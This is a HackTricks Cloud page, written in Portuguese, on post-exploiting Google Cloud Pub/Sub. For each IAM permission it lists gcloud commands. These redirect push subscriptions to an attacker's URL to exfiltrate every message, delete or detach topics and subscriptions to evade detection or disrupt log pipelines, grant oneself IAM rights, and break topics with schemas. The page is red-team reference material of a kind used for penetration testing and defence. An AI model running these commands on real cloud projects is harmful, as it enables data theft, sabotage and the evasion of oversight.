 # GCP - Pub/Sub Pós-Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Pub/Sub

Para mais informações sobre Pub/Sub, confira a seguinte página:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publique uma mensagem em um tópico, útil para **enviar dados inesperados** e acionar funcionalidades inesperadas ou explorar vulnerabilidades:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Útil para impedir que uma assinatura receba mensagens, talvez para evitar detecção.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Útil para impedir que uma assinatura receba mensagens, talvez para evitar detecção.\
É possível excluir um tópico mesmo com assinaturas anexadas a ele.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Use esta permissão para atualizar alguma configuração do tópico para interrompê-lo, como `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Dê a si mesmo permissão para realizar qualquer um dos ataques anteriores.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtenha todas as mensagens em um servidor web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crie uma assinatura e use-a para **puxar mensagens**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Excluir uma assinatura** pode ser útil para interromper um sistema de processamento de logs ou algo semelhante:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Use esta permissão para atualizar algumas configurações para que as mensagens sejam armazenadas em um local que você possa acessar (URL, tabela Big Query, Bucket) ou apenas para interrompê-las.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Dê a si mesmo as permissões necessárias para realizar qualquer um dos ataques comentados anteriormente.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Ataque um esquema a um tópico para que as mensagens não o cumpram e, portanto, o tópico seja interrompido.\
Se não houver esquemas, você pode precisar criar um.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Isso pode parecer que ao deletar um esquema você poderá enviar mensagens que não atendem ao esquema. No entanto, como o esquema será deletado, nenhuma mensagem realmente entrará no tópico. Portanto, isso é **INÚTIL**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Dê a si mesmo as permissões necessárias para realizar qualquer um dos ataques comentados anteriormente.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Isso criará um snapshot de todas as mensagens não reconhecidas e as colocará de volta na assinatura. Não é muito útil para um atacante, mas aqui está:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
